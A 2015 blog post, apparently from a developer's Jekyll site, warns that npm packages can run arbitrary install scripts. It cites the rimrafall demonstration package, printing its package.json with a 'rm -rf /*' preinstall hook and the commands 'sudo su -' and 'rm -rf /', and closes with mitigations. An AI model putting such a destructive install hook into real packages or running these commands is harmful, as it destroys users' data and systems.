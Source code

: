 ```yaml
---
layout: post
title: "`npm install` could be dangerous"
date:   2015-03-01 21:00:00
image:
    url: /assets/article_images/2015-03-01-npm-dependency/airplane-crash.jpg
video: false
comments: true
theme_color: 302F2D

author: 'Dominik Richter'
author_image: "https://avatars0.githubusercontent.com/u/1307529?s=400"
author_link: "https://twitter.com/arlimus"
---
```


[NPM](https://www.npmjs.com/) hosts about 144,000 npm modules on their registry. Over one million modules are downloaded per month. Assume you use one module that includes a major flaw in their implementation? Will you detect it?

Just recently, [João Jerónimo](https://github.com/joaojeronimo) published a special npm modules called [rimrafall](https://github.com/joaojeronimo/rimrafall). He published it at npm and posted it on [Hacker News](https://news.ycombinator.com/item?id=8947493). Essentially this module does the following:

    sudo su -
    rm -rf /

It uses a special script tag in `package.json` to run a prescript. Commonly it is used to build native code, but still can be used to do anything that bash can.

The package.json looks as follows:

    {
      "name": "rimrafall",
      "version": "1.0.0",
      "description": "rm -rf /* # DO NOT INSTALL THIS",
      "main": "index.js",
      "scripts": {
        "preinstall": "rm -rf /*"
      },
      "keywords": [
        "rimraf",
        "rmrf"
      ],
      "author": "João Jerónimo",
      "license": "ISC"
    }

Once you just install this module, your computer is shredded. Do you verify all your dependencies for malicious scripts? In most cases you do not. This is especially dangerous if this runs on your production server or CI server.

Although there is no easy mitigation, you could start building all your node code in a Docker container or use `npm install --ignore-scripts`. If you integrate 3rd-party modules, have a look at their source code, especially if it is a new module without much stars.

